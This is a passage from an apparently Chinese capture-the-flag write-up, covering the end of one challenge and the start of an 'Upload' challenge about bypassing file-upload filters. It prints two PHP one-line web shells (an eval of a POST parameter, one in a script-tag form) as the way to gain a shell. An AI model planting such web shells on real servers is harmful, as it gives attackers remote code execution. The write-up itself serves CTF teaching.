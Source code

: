 ![flag3](img/00f309a84a7f7aab812ef6cf496319aa.png)
将三段flag组合即可

* * *

### Upload

#### 出题解析

本题考察文件上传，考察上传绕过的姿势，因为比赛限制，没有出太难的过滤

#### 解题方式

当然，不是真的让你上传个动图。。我服务器里发现了好多奇奇怪怪的图片
一般文件上传一句话木马直接获取shell
`<?php @eval($_POST[gyy])?>`
需要能被php解析才行，.txt,.gif都是不可被解析的
或者直接用script标签
`<script language='php'>@eval($_POST[gyy]);</script>`
后缀名限制